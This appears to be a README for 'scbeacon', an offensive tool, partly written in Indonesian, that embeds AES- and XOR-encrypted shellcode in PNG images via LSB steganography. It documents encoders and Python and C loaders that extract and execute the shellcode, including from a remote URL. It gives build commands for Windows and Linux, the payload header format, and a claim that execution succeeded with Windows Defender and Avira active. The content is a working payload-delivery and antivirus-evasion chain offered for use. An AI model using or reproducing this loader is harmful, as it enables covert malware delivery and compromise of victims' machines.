

# scbeacon

LSB Steganography payload delivery tool with multi-layer encryption.
Embeds shellcode inside PNG images using Least Significant Bit steganography,
encrypted with Rolling-XOR → AES-256-GCM (PBKDF2-SHA256 key derivation).

---

## Encryption Layers

```
Shellcode
   │
   ▼
[Layer 1] Rolling-XOR  (key derived from PBKDF2-SHA256)
   │
   ▼
[Layer 2] AES-256-GCM  (authenticated encryption, random nonce)
   │
   ▼
Embedded into PNG via LSB Steganography
```

| Component       | Detail                                      |
|-----------------|---------------------------------------------|
| KDF             | PBKDF2-SHA256, 200.000 iterasi, salt 16 byte |
| Layer 1         | Rolling-XOR — key berevolusi tiap byte      |
| Layer 2         | AES-256-GCM — authenticated, nonce 12 byte  |
| Stego method    | LSB (1 bit per channel, RGB)                |
| Crypto backend  | Windows: CNG (bcrypt.dll) / Linux: OpenSSL  |

---

## File Structure

```
scbeacon/
├── stego_encode.py     # Encoder — embed shellcode ke PNG
├── stego_loader.py     # Loader Python — extract + execute
├── stego_loader.c      # Loader C — cross-platform (Windows/Linux)
├── stb_image.h         # Single-header PNG loader (stb)
├── Makefile            # Build targets
└── requirements.txt    # Python dependencies
```

---

## Requirements

**Python:**
```bash
pip install pillow cryptography
```

**C (Linux):**
```bash
sudo apt install libssl-dev
```

**C (Windows cross-compile dari Kali):**
```bash
sudo apt install gcc-mingw-w64
# bcrypt.dll sudah built-in di Windows, tidak perlu install tambahan
```

---

## Usage

### 1. Encode — Embed shellcode ke dalam PNG

```bash
python3 stego_encode.py -i cover.png -s shellcode.bin -o payload.png -p "password"
```

| Flag | Keterangan |
|------|------------|
| `-i` | Cover image (PNG input) |
| `-s` | Shellcode binary |
| `-o` | Output PNG |
| `-p` | Password untuk key derivation |
| `-k` | Base XOR key byte (default: `0xAB`) |

**Contoh output:**
```
[*] Password       : *******
[*] Base XOR key   : 0xab
[*] KDF iterations : 200,000
[*] Encryption     : Rolling-XOR -> AES-256-GCM
[*] Shellcode size : 276 bytes
[*] Encrypted size : 309 bytes
[*] Salt           : a3f1c2...
[*] Nonce          : 9e4b12...
[*] Image size     : 1920x1080 (7372800 bytes capacity)
[*] Payload size   : 361 bytes (2888 bits)
[*] Usage          : 0.04%
[+] Saved stego image: payload.png
```

---

### 2. Decode — Python Loader

```bash
python3 stego_loader.py -i payload.png -p "password"
```

Atau dari URL:
```bash
python3 stego_loader.py -u http://host/payload.png -p "password"
```

Extract saja tanpa execute:
```bash
python3 stego_loader.py -i payload.png -p "password" --extract-only
```

---

### 3. Compile C Loader

**Linux:**
```bash
gcc -O2 -s stego_loader.c -lm -lssl -lcrypto -o loader
```

**Linux + HTTP (curl):**
```bash
gcc -O2 -s stego_loader.c -lm -lssl -lcrypto -lcurl -DUSE_CURL -o loader
```

**Windows (cross-compile dari Kali):**
```bash
x86_64-w64-mingw32-gcc -O2 -s stego_loader.c -lm -lwininet -lbcrypt -o loader.exe
```

Atau gunakan Makefile:
```bash
make windows    # loader.exe
make linux      # loader
make all        # keduanya
```

---

### 4. Jalankan loader.exe di Windows

```cmd
loader.exe payload.png password
```

Atau dari URL:
```cmd
loader.exe http://host/payload.png password
```

---

## Header Format (di dalam PNG)

```
┌──────────┬──────────┬───────────┬─────────────┬──────────┬───────────┬────────────┐
│ MAGIC    │ SALT_LEN │ NONCE_LEN │ PAYLOAD_LEN │ SALT     │ NONCE     │ CIPHERTEXT │
│ 4 bytes  │ 2 bytes  │ 2 bytes   │ 4 bytes     │ 16 bytes │ 12 bytes  │ N bytes    │
└──────────┴──────────┴───────────┴─────────────┴──────────┴───────────┴────────────┘
```

Magic bytes: `\xDE\xAD\xC0\xDE`

---

## Demo



> Shellcode (`calc.exe`) berhasil dieksekusi dari dalam `payload.png`
> saat Windows Defender dan Avira AV aktif.

---

## Notes

- Output **harus PNG** (lossless) — format lossy (JPEG, WebP) akan merusak LSB.
- Semakin besar cover image, semakin kecil persentase pemakaian dan semakin tidak mencurigakan.
- Password tidak disimpan di dalam gambar — hanya salt dan nonce yang disertakan.
